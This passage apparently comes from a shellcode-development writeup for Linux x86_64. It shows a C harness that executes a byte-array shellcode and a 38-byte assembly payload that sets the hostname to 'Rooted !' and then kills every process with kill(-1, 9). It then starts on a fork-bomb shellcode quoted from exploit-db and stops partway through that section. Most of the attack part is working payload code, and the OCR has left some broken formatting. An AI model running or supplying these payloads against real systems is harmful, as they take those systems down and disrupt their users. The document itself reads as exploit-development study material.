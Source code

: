 ```nasm
    "\xb0\xaa\x49\xb8\x52\x6f\x6f\x74\x65\x64\x20\x21\x41\x50\x48\x89"
    "\xe7\x40\xb6\x08\x0f\x05\x6a\x3e\x58\x6a\xff\x5f\x6a\x09\x5e\x0f\x05";
 
    (*(void (*)()) shellcode)();
 
    return 0;
}
```

The final shellcode size is 38 bytes.

```nasm
global _start

section .text

_start:
	; int sethostname(const char *name, size_t len)
	; rax=170, rdi="Rooted !", rsi=8
	add al, 170
	mov rbx, 0xDEDF9B9A8B9090AD
	not rbx
	push rbx
	push rsp
	pop rdi
	push byte 0x9
	pop rsi
	dec esi
	syscall

	; int kill(pid_t pid, int sig)
	; rax=62, rdi=-1, rsi=9
	push 62
	pop rax
	push r15
	pop rdi
	dec rdi
	inc esi
	syscall
```

Shellcode III
-------------
The last [shellcode](https://www.exploit-db.com/exploits/42523/) generates infinite child processes using `fork()` function which will effectively render the system unavailable. The original shellcode size is 11 bytes meaning we need to stay below 16 bytes.

```nasm
/*
;Title: Linux/x86_64 - fork() Bomb (11 bytes)
;Author: Touhid M.Shaikh
;Contact: https://twitter.com/touhidshaikh
;Category: Shellcode
;Architecture: Linux x86_64
;Description: WARNING! this shellcode may crash your computer if executed
in your system.
;Shellcode Length: 11
;Tested on : Debian 4.6.4-1kali1 (2016-07-21) x86_64 GNU/Linux



===COMPILATION AND EXECUTION Assemmbly file===

#nasm -f elf64 shell.asm -o shell.o <=== Making Object File

```